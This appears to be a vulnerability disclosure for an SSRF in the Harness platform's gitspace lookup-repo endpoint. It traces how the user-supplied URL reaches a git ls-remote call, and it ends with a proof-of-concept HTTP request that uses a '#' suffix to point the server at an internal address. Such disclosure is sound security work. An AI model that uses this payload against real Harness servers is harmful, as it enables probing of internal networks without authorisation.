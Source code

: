 # Vendor

harness

# Product

harness

# version

v2025.1000.4050

# Download 

https://github.com/harness/harness

# Vulnerability

SSRF

# Description

The root cause is that the back-end code receives a user-controllable URL parameter and, without performing strict security validation, directly uses this URL to initiate a network request on behalf of the server itself.

# Analysis

Endpoint: `POST /api/v1/gitspaces/lookup-repo`

Vulnerable Parameter: The `url` field in the JSON request body.

Code Path:

  The `LookupRepo` function in `app/api/controller/gitspace/lookup_repo.go` receives the user-provided `url`.

  It calls `sanitizeLookupRepoInput` which performs basic URL parsing and scheme validation (ensuring `http` or `https` is present). However, this sanitization is insufficient to prevent SSRF or command injection.

  The `url` is then passed to `c.scm.CheckValidCodeRepo` in `app/gitspace/scm/scm.go`.

  `CheckValidCodeRepo` calls `s.detectBranch`, which in turn calls `detectDefaultGitBranch`.

  The `detectDefaultGitBranch` function constructs and executes a `git ls-remote` command, passing the user-controlled `repoURL` (which is the `url` from the request) directly as an argument:

    ```go
    cmd := command.New("ls-remote",
        command.WithFlag("--symref"),
        command.WithFlag("-q"),
        command.WithArg(gitRepoDir), // gitRepoDir is the user-provided URL
        command.WithArg("HEAD"),
    )
    if err := cmd.Run(ctx, command.WithStdout(output)); err != nil {
        // ...
    }
    ```


Vulnerability Verification:

We need to add '#' after the internal address we want to request to avoid its own parameters affecting our request

<img width="979" height="376" alt="image" src="https://github.com/user-attachments/assets/a369a8a0-c989-4104-8710-8a23397639db" />


# POC
```
POST /api/v1/gitspaces/lookup-repo HTTP/1.1
Host: 192.168.43.165:3000
Cookie: token=XXX
Connection: close
Content-Length: 68

{"space_ref":"a","url":"http://192.168.43.165:9877/123.php?id=111#"}

```





